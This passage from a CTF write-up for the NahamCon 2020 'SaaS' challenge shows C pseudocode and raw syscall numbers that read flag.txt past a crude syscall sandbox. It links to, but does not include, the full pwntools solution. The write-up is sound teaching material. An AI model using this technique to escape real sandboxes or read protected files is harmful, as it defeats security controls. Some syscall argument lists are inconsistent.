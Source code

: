 ```C 
void *address = mmap(NULL, 128, (PROT_READ|PROT_WRITE), (MAP_PRIVATE|MAP_ANONYMOUS), NULL, 0); 
read(STDIN, address, len("flag.txt")); 
int file_fd = open(address, O_RDONLY); 
int read_bytes = read(file_fd, address + 20, 128);
write(STDOUT, address + 20, read_bytes); 
``` 

Translating this C code to *syscall()* with respective syscall numbers and parameters will be like this. 
```C 
address = syscall(9, 0, 128, 3, 34, 0, 0, 0);                     //mmap() 
syscall(0, 0, address, 9, 0, 0, 0);                               //read() 
fild_fd = syscall(2, address, 0, 0, 0, 0, 0);                     //open() 
read_bytes = syscall(0, file_fd, address + 20, 128, 0, 0, 0, 0);  //read() 
syscall(1, 1, address + 20, read_bytes, 0, 0, 0, 0);              //write() 
``` 

Finally, we shall get our flag after the final system call (write())!. What's left is to implement the above C code in python using [pwntools](https://github.com/Gallopsled/pwntools) and send the appropriate parameters to *syscall()* via registers for [the SaaS](#main). 

All in all, this was a very interesting and a fun challenge about a crude implementation of a system call sandbox and how to bypass it. The SaaS binary and the solution python script can be found [here](https://github.com/RoberaHaile/ctf-solutions/tree/master/NahamCon-2020/SaaS). 




 
